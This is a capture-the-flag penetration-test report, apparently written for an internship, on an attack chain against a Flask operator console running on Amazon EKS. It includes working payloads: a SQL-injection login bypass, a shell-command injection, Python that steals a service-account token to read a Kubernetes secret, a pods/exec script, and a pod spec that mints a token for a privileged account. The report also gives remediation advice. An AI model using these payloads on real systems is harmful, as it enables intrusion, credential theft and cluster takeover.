

# Thndr Security CTF — Penetration Test Report


A full-chain offensive security assessment of the **Thndr internal Operator Console**, demonstrating a complete attack path from an unauthenticated web login to **remote code execution as root** and into the **Kubernetes control and data planes** of the Amazon EKS cluster hosting it. Conducted as a time-boxed internship security assessment.

> **Authorisation & disclaimer.** This assessment was performed against an isolated, purpose-built CTF environment provided by Thndr as part of an internship evaluation, within the scope and time window defined by that exercise. All testing was authorised. Sensitive material (captured flag tokens, the candidate-scoped namespace, and the cluster OIDC issuer ID) has been **redacted** from this public write-up; no production data was accessed and nothing here is intended to be reproduced against any system you do not own or are not explicitly authorised to test.

---

## Table of Contents

- [Engagement Summary](#engagement-summary)
- [Scope & Methodology](#scope--methodology)
- [Executive Summary](#executive-summary)
- [Attack Chain](#attack-chain)
- [Tooling & MITRE ATT&CK Mapping](#tooling--mitre-attck-mapping)
- [Reconnaissance](#reconnaissance)
- [Findings](#findings)
  - [F1 — SQL Injection (Authentication Bypass)](#f1--sql-injection-authentication-bypass)
  - [F2 — OS Command Injection (RCE as root)](#f2--os-command-injection-rce-as-root)
  - [F3 — Kubernetes Secret Read via Service-Account Token](#f3--kubernetes-secret-read-via-service-account-token)
  - [F4 — Kubernetes Pod Exec (Lateral Movement)](#f4--kubernetes-pod-exec-lateral-movement)
  - [F5 — Privilege Escalation to `flag-keeper` (Partial)](#f5--privilege-escalation-to-flag-keeper-partial)
- [Remediation Priorities](#remediation-priorities)
- [Lessons Learned & Hardening Recommendations](#lessons-learned--hardening-recommendations)
- [Appendix A — Captured Flags](#appendix-a--captured-flags)
- [Appendix B — Environment Notes](#appendix-b--environment-notes)
- [Author](#author)

---

## Engagement Summary

| Field | Detail |
|-------|--------|
| **Assessor** | Abdelrahman El-Maghraby |
| **Engagement** | Thndr Security CTF — Internship Assessment |
| **Dates** | 24–25 May 2026 |
| **Target** | `https://play.thndr-ctf.app/` (Operator Console) |
| **Platform** | Amazon EKS (`eu-central-1`) |
| **Namespace** | `[REDACTED]` (candidate-scoped) |
| **Result** | 4 of 5 flags captured; full RCE → Kubernetes data-plane compromise demonstrated |

---

## Scope & Methodology

**In scope.** The single web application at `https://play.thndr-ctf.app/`, the workloads in the candidate-scoped namespace, and any in-cluster resource reachable from a compromised workload using credentials obtained during the assessment.

**Out of scope.** The Cloudflare Access identity layer, other tenants/namespaces, the EKS control plane itself, and the underlying AWS account.

**Approach.** Testing followed a black-box, chained-exploitation methodology aligned with **PTES** (Penetration Testing Execution Standard) and the **OWASP Testing Guide**, with Kubernetes-specific steps mapped to **MITRE ATT&CK for Containers**:

1. **Reconnaissance** — enumerate endpoints, fingerprint the stack, identify the trust boundaries.
2. **Exploitation** — confirm and weaponise each vulnerability with a minimal proof of concept.
3. **Post-exploitation** — use each foothold to enumerate and pivot (service-account tokens, RBAC, the Kubernetes API).
4. **Impact analysis & remediation** — assess blast radius per finding and define prioritised fixes.

Each finding below is rated with a **CVSS v3.1** base score and a **CWE** classification.

---

## Executive Summary

The Operator Console exposes a chain of vulnerabilities that lets an attacker progress from a public login page all the way into the Kubernetes data plane of the cluster hosting it. The application layer is exploitable through classic, high-impact web flaws (SQL injection and OS command injection), and the resulting foothold inherits an **over-permissioned Kubernetes service account** that turns a single-pod compromise into cross-pod and control-plane access.

Four exploitation paths (F1–F4) were fully confirmed and one (F5) was partially completed — the privilege-escalation **primitive** was proven (a pod was admitted running under a higher-privileged identity), but the final downstream resource was not reached within the assessment window.

| # | Finding | CWE | CVSS v3.1 | Severity | Status |
|---|---------|-----|:---------:|:--------:|:------:|
| **F1** | SQL Injection — authentication bypass | [CWE-89](https://cwe.mitre.org/data/definitions/89.html) | 9.1 | 🔴 Critical | ✅ Captured |
| **F2** | OS Command Injection — RCE as root | [CWE-78](https://cwe.mitre.org/data/definitions/78.html) | 9.9 | 🔴 Critical | ✅ Captured |
| **F3** | Kubernetes secret read via SA token (RBAC) | [CWE-732](https://cwe.mitre.org/data/definitions/732.html) | 7.7 | 🟠 High | ✅ Captured |
| **F4** | Kubernetes `pods/exec` lateral movement | [CWE-269](https://cwe.mitre.org/data/definitions/269.html) | 8.0 | 🟠 High | ✅ Captured |
| **F5** | Privilege escalation to `flag-keeper` SA | [CWE-269](https://cwe.mitre.org/data/definitions/269.html) | 8.7 | 🟠 High | ⚠️ Partial |

**Root causes:** unparameterised SQL, `shell=True` on user input, a container running as **UID 0**, and Kubernetes service accounts granted far more than they need (`automountServiceAccountToken`, secret reads, `pods/exec`, `pods/log`, and `create pods`). A single namespace-scoped NetworkPolicy denying egress to the API server would, by itself, have neutralised F3, F4, and F5.

---

## Attack Chain



The chain is **cumulative**: F1 yields a session, F2 turns that session into root code execution, and every Kubernetes finding (F3–F5) is enabled by the service-account token that F2's shell can read off the pod filesystem.

---

## Tooling & MITRE ATT&CK Mapping

**Tools & techniques.** Browser + intercepting proxy for the web layer; the compromised `/diag` endpoint as a generic shell; Python standard library (`urllib`, `ssl`, `base64`, `json`) for raw Kubernetes API calls; the `websockets` library for the SPDY-based exec channel; and Kubernetes-native primitives (`SelfSubjectRulesReview`, service-account token files, raw REST against the API server) for enumeration and pivoting — no `kubectl` was present in-pod.

| Finding | Tactic | Technique |
|---------|--------|-----------|
| F1 | Initial Access | [T1190](https://attack.mitre.org/techniques/T1190/) — Exploit Public-Facing Application |
| F2 | Execution | [T1190](https://attack.mitre.org/techniques/T1190/) + [T1059.004](https://attack.mitre.org/techniques/T1059/004/) — Command & Scripting Interpreter: Unix Shell |
| F3 | Credential Access / Discovery | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) — Credentials in Files · [T1613](https://attack.mitre.org/techniques/T1613/) — Container & Resource Discovery |
| F4 | Lateral Movement | [T1609](https://attack.mitre.org/techniques/T1609/) — Container Administration Command (`pods/exec`) |
| F5 | Privilege Escalation | [T1610](https://attack.mitre.org/techniques/T1610/) — Deploy Container · [T1528](https://attack.mitre.org/techniques/T1528/) — Steal Application Access Token |

---

## Reconnaissance

The target is fronted by **Cloudflare Access** (email-OTP authentication). After authenticating to Cloudflare Access, the application exposes:

| Endpoint | Purpose |
|----------|---------|
| `/` | Operator Console landing |
| `/login` | Sign-in form (username + password) |
| `/healthz` | Liveness probe |
| `/dashboard` | Post-login console |
| `/diag?host=` | Post-login network-diagnostic utility |

Server fingerprint: `internal-console@dev-7c1a`, `gunicorn 22.0.0`, a Flask application identified as **“Pod-A: Thndr Internal — Operator Console.”** A pre-filled hint on the login page (`' OR '1'='1`) was the first signal that the authentication layer was deliberately vulnerable.

---

## Findings

> Each finding uses a consistent template: **Summary · Severity · Vulnerability · Exploitation · Evidence · Impact · Remediation.** Flag values are redacted; see [Appendix A](#appendix-a--captured-flags).

### F1 — SQL Injection (Authentication Bypass)

**Summary.** The `/login` endpoint builds its SQL query by string concatenation, allowing an attacker to comment out the password check and authenticate as `admin` without credentials.

**Severity.** 🔴 **Critical** · CVSS v3.1 **9.1** (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`) · **CWE-89**

**Vulnerability.** User input is concatenated directly into a SQLite query with no parameterisation (source confirmed post-RCE from `/app/app.py`):

```python
q = ("SELECT id, username, role FROM users "
     f"WHERE username = '{u}' AND password = '{p}'")
cur = _db.execute(q)
```

**Exploitation.**

```text
username = admin'--
password = anything
```

The query becomes:

```sql
SELECT id, username, role FROM users WHERE username = 'admin'--' AND password = 'anything'
```

The `--` comment removes the password predicate, returning the `admin` row and establishing a valid operator session.

**Evidence.** Authenticated as `admin` (role `operator`); the dashboard banner renders the F1 token: *“Session welcome. Operator token issued: `[REDACTED]`.”*

**Impact.** Complete authentication bypass — any attacker reaching the login page obtains an authenticated operator session and the entire post-login attack surface (including F2).

**Remediation.**
- Use parameterised queries: `_db.execute("... WHERE username = ? AND password = ?", (u, p))`.
- Store password hashes (bcrypt/argon2); never plaintext.
- Add server-side rate limiting and account lockout.
- Delegate authentication to the existing Cloudflare Access identity rather than re-implementing a login form.

---

### F2 — OS Command Injection (RCE as root)

**Summary.** The `/diag?host=` utility passes user input to a shell with `shell=True`, yielding arbitrary command execution as **root** inside the pod.

**Severity.** 🔴 **Critical** · CVSS v3.1 **9.9** (`AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`) · **CWE-78**

**Vulnerability.** The `host` parameter is interpolated into a shell string; the container also runs as **UID 0**:

```python
host = request.args.get("host", "").strip()
cmd = f"ping -c 1 -W 1 {host}"
r = subprocess.run(cmd, shell=True, capture_output=True, text=True, timeout=4)
```

**Exploitation.**

```text
127.0.0.1; cat /app/flag2.jwt
```

The `ping` completes against loopback, then the injected command runs in the same shell context and returns the flag.

**Evidence & pivot.** Beyond reading the flag, the `/diag` channel became a generic shell for the rest of the assessment:
- Read application source (`cat /app/app.py`).
- Read the auto-mounted service-account directory (`/var/run/secrets/kubernetes.io/serviceaccount/{token,namespace,ca.crt}`).
- Enumerate `/proc/1/environ` (leaking flag values and service-discovery variables).
- Install `websockets` (`pip3 install --break-system-packages websockets`) for the later exec channel.

**Impact.** Unauthenticated (post-F1) RCE as root inside the pod. Blast radius extends to every service reachable from the pod — critically, the Kubernetes API server — turning a web compromise into a cluster-access problem.

**Remediation.**
- Never use `shell=True` with user input; use the list form: `subprocess.run(["ping","-c","1","-W","1", host])`.
- Strictly validate `host` against a hostname/IP allow-list **before** invoking any subprocess.
- Run the container as a non-root UID, drop Linux capabilities, set `readOnlyRootFilesystem: true`.
- Apply a NetworkPolicy restricting egress to only what the pod legitimately needs (no API-server access from a web pod).

---

### F3 — Kubernetes Secret Read via Service-Account Token

**Summary.** The pod auto-mounts a Kubernetes service-account token whose RBAC permits reading a namespace secret, so the F2 shell can read it directly from the API.

**Severity.** 🟠 **High** · CVSS v3.1 **7.7** (`AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`) · **CWE-732**

**Vulnerability.** `automountServiceAccountToken` is enabled, and `pod-a-sa` holds secret-read RBAC. Permissions confirmed via `SelfSubjectRulesReview`:

```text
get   secrets   resourceNames=[flag3]
list  secrets
get,list pods
create,get pods/exec  resourceNames=[pod-b]
```

**Exploitation.**

```python
token = open('/var/run/secrets/kubernetes.io/serviceaccount/token').read().strip()
req = urllib.request.Request(
    'https://172.20.0.1/api/v1/namespaces/<ns>/secrets/flag3',
    headers={'Authorization': 'Bearer ' + token})
ctx = ssl.create_default_context(); ctx.check_hostname = False; ctx.verify_mode = ssl.CERT_NONE
data = json.loads(urllib.request.urlopen(req, context=ctx).read())
flag = base64.b64decode(data['data']['flag3.jwt']).decode()
```

**Evidence.** `flag3` secret read and base64-decoded to the F3 token (`[REDACTED]`).

**Impact.** A web-application compromise becomes a Kubernetes API compromise. Even tightly `resourceNames`-scoped RBAC still discloses the secret it is scoped to.

**Remediation.**
- Set `automountServiceAccountToken: false` for any pod that doesn't call the API — a Flask front-end never does.
- If a token is required, scope RBAC to the absolute minimum and avoid granting secret reads.
- Apply a NetworkPolicy blocking egress to the API server from application pods.
- Enable etcd encryption at rest.

---

### F4 — Kubernetes Pod Exec (Lateral Movement)

**Summary.** The same service account can `exec` into a second pod, giving command execution in a neighbouring workload and access to its mounted material.

**Severity.** 🟠 **High** · CVSS v3.1 **8.0** (`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`) · **CWE-269**

**Vulnerability.** `pod-a-sa` holds `create,get` on `pods/exec` (`resourceNames=[pod-b]`). The `pods/exec` subresource uses a **SPDY/WebSocket** streaming protocol — not plain HTTPS — so a naive `urllib` POST returns `400 Bad Request`, which was initially misleading. Pod-B runs BusyBox `httpd -h /www` and mounts the `flag4` ConfigMap at `/flag4.jwt`.

**Exploitation.** Connect to the exec endpoint over WebSocket with the SPDY v4 subprotocol:

```python
import ssl, websockets, urllib.parse
params = urllib.parse.urlencode([
    ('command','cat'), ('command','/flag4.jwt'),
    ('stdin','false'), ('stdout','true'), ('stderr','true'), ('tty','false')])
url = f'wss://172.20.0.1/api/v1/namespaces/<ns>/pods/pod-b/exec?{params}'
# headers={'Authorization': f'Bearer {token}'}, subprotocols=['v4.channel.k8s.io']
# stream framing: first byte of each frame is the channel ID (1=stdout, 2=stderr)
```

**Evidence.** Stripping the per-frame channel byte and decoding the stdout frames yielded the F4 token (`[REDACTED]`). The `pod-b-sa` token was also recovered here for use in F5.

**Impact.** Cross-pod lateral movement inside the namespace with no pod-to-pod networking required. `pods/exec` is effectively a remote shell whose authorisation is gated **entirely** by RBAC.

**Remediation.**
- Treat `pods/exec` as equivalent to `cluster-admin` over the target pod — grant it only to break-glass roles, never to workload service accounts.
- Where automation needs cross-pod access, use a narrowly scoped Service/API rather than `pods/exec`.
- Store sensitive material as Secrets (encrypted at rest) or an external secret manager — not ConfigMaps.

---

### F5 — Privilege Escalation to `flag-keeper` (Partial)

**Summary.** The `pod-b-sa` token can `create pods` and read `pods/log` namespace-wide. The intended escalation — run a pod **as** the higher-privileged `flag-keeper` service account and read its token from the pod log — was proven as a primitive but not completed to the final resource.

**Severity.** 🟠 **High** · CVSS v3.1 **8.7** (`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`) · **CWE-269** · ⚠️ **Partial**

**Vulnerability.** `pod-b-sa` (recovered via F4) holds:

```text
get,list  pods,serviceaccounts,configmaps
get       pods/log
create,delete pods
```

A fourth service account, `flag-keeper`, exists with no bound pods, no secrets, and no IRSA annotation — its name strongly implies it holds the F5 material. The combination *“create a pod under an arbitrary service account”* + *“read that pod's logs”* is a textbook token-minting escalation.

**Exploitation (primitive confirmed).** A pod created with the spec below is **admitted** and runs as `flag-keeper`. The only gate was the namespace `ResourceQuota` (`candidate-quota`), which requires CPU/memory limits — once added, the create was accepted:

```yaml
apiVersion: v1
kind: Pod
metadata: { name: fkp2 }
spec:
  serviceAccountName: flag-keeper
  restartPolicy: Never
  containers:
  - name: r
    image: busybox
    command: ["sh","-c","cat /var/run/secrets/kubernetes.io/serviceaccount/token; sleep 3600"]
    resources:
      limits:   { cpu: 100m, memory: 64Mi }
      requests: { cpu: 50m,  memory: 32Mi }
```

**Intended final step (not completed).** Wait for `fkp2` to reach `Running`, read its log via `pods/log` (held by `pod-b-sa`) to extract the `flag-keeper` token, then call the API as `flag-keeper` to read the F5 resource.

**Why it was not completed.** The `/diag` endpoint enforces a **4-second** `subprocess.run` timeout. The full *create → wait-for-ready → fetch-logs* chain exceeds that, forcing a split into separate short requests with intermediate state in `/tmp`. That staged version was reached at the very end of the assessment window and not finished in time. A targeted `SelfSubjectRulesReview` and direct reads with the `flag-keeper` token returned `403`, and namespace enumeration was denied — suggesting the final resource is scoped to a different namespace or by `resourceNames` that don't surface in a per-namespace rules review.

**Impact.** Demonstrated tenant-level privilege escalation: the ability to run workloads under an arbitrary, higher-privileged identity and harvest its token via logs — one of the most damaging Kubernetes RBAC misconfigurations.

**Remediation.**
- Replace permissive `create pods` with a controller/Job pattern that enforces a fixed PodSpec.
- Add a `ValidatingAdmissionPolicy` rejecting pods whose `serviceAccountName` is not in an allow-list.
- Restrict `pods/log` to operator-only roles — logs frequently leak tokens (this finding demonstrates exactly that).
- Audit-log `secrets`, `pods/exec`, `pods/log`, and `TokenRequest` at `RequestResponse` level and alert on any non-controller principal.

---

## Remediation Priorities

| Priority | Action | Closes |
|:--------:|--------|--------|
| **P0** | Parameterise all SQL; remove `shell=True` and validate `/diag` input | F1, F2 |
| **P0** | NetworkPolicy denying egress to the API server (`172.20.0.1`) from app pods | F3, F4, F5 |
| **P1** | `automountServiceAccountToken: false`; strip `secrets`/`pods/exec`/`pods/log`/`create pods` from workload SAs | F3, F4, F5 |
| **P1** | Run containers as non-root, drop capabilities, `readOnlyRootFilesystem: true` | F2 |
| **P2** | `ValidatingAdmissionPolicy` for `serviceAccountName`; move secrets out of ConfigMaps; etcd encryption; audit logging + alerting | F4, F5, detection |

---

## Lessons Learned & Hardening Recommendations

**Application layer.** Parameterise every query; never pass external input to a shell; put a WAF in front of internal tooling; and treat *internal* utilities like `/diag` with the same scepticism as public endpoints — internal exposure is not safety.

**Container & pod layer.** Run as a non-root UID, drop all Linux capabilities, set `readOnlyRootFilesystem: true` and a restrictive `seccompProfile`, and disable service-account token automounting wherever the API isn't needed.

**Kubernetes RBAC.** Audit every workload `RoleBinding`: `pods/exec` should never be granted to a workload SA; `secrets` reads should be `resourceNames`-scoped and controller-only; `pods/log` is sensitive because logs leak tokens; and `create pods` should be replaced by a controller/Job pattern with a fixed PodSpec.

**Network.** A namespace-scoped NetworkPolicy denying egress to the API server would have shut down F3–F5; denying pod-to-pod traffic would further harden F4.

**Secrets.** Move flag-style material out of ConfigMaps (plaintext etcd values) into Secrets or, preferably, an external manager (AWS Secrets Manager / HashiCorp Vault) accessed via short-lived OIDC-traded credentials; enable etcd encryption at rest.

**Observability.** Enable Kubernetes audit logging at `RequestResponse` for `secrets`, `pods/exec`, `pods/log`, and `TokenRequest`; every action in this report would have produced a clearly anomalous audit trail. Alert on any non-controller principal performing `pods/exec` or `TokenRequest`.

---

## Appendix A — Captured Flags

The four captured flag tokens (EdDSA-signed JWTs) have been **redacted** from this public write-up; they were submitted in full through the official assessment channel.

```text
F1 = [REDACTED]
F2 = [REDACTED]
F3 = [REDACTED]
F4 = [REDACTED]
F5 = [REDACTED — partial; primitive demonstrated, final token not retrieved]
```

---

## Appendix B — Environment Notes

| Item | Value |
|------|-------|
| Cluster | Amazon EKS, region `eu-central-1` |
| OIDC issuer | `[REDACTED]` |
| Namespace | `[REDACTED]` (candidate-scoped) |
| ResourceQuota | `candidate-quota` (requires `limits.cpu` / `limits.memory` on every container) |
| ServiceAccounts observed | `default`, `pod-a-sa`, `pod-b-sa`, `flag-keeper` |
| ConfigMaps observed | `flag2`, `flag4`, `kube-root-ca.crt` |
| Secrets observed (visible to `pod-a-sa`) | `flag3` |

---

## Author

**Abdelrahman El-Maghraby** — Cybersecurity / Offensive Security
[GitHub](https://github.com/zzddf656666) · [LinkedIn](https://www.linkedin.com/in/abdelrahman-el-maghraby/)

> Educational, authorised-assessment write-up. Redacted for public release. Do not use these techniques against systems you do not own or are not explicitly authorised to test.
